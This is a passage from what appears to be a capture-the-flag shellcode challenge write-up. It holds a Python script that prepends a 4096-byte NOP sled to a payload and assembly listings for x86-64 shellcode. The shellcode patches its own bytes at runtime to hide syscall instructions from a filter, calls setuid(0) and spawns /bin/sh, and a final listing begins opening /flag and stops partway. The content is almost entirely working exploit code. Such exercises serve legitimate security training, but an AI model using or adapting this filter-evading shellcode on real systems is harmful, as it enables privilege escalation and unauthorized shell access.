 Removing write permissions from first 4096 bytes of shellcode.

```py
shellcode = ""
with open("sol.txt", "rb") as f:
    shellcode = f.read()
    f.close()

with open("sol.txt","wb") as f:
    data = b"\x90"*4096
    data += shellcode
    f.write(data)
    f.close()
```

```s
.intel_syntax noprefix
.global _start
.section .text
_start:

xor rax,rax
or  rax,0x69
xor rdi,rdi
inc byte ptr [rip+sys_1]
inc byte ptr [rip+sys_1+1]
sys_1:
.byte 0x0e
.byte 0x04

xor     rdx, rdx
mov     rbx, 0x68732f6e69622f2f # '//bin/sh'
shr     rbx, 0x8
push    rbx
mov     rdi, rsp
push    rax
push    rdi
mov     rsi, rsp
mov     al, 0x3b # syscall execve

inc byte ptr [rip+sys_2]
inc byte ptr [rip+sys_2+1]
sys_2:
.byte 0x0e
.byte 0x04
```

## 7
```s
.intel_syntax noprefix
.global _start
.section .text
_start:

push [rip+flag]
mov rdi,rsp
xor rsi,rsi
call open

mov rdi,rax # /flag fd

sub rsp, 64
mov rbp, rsp

mov rsi,rbp
```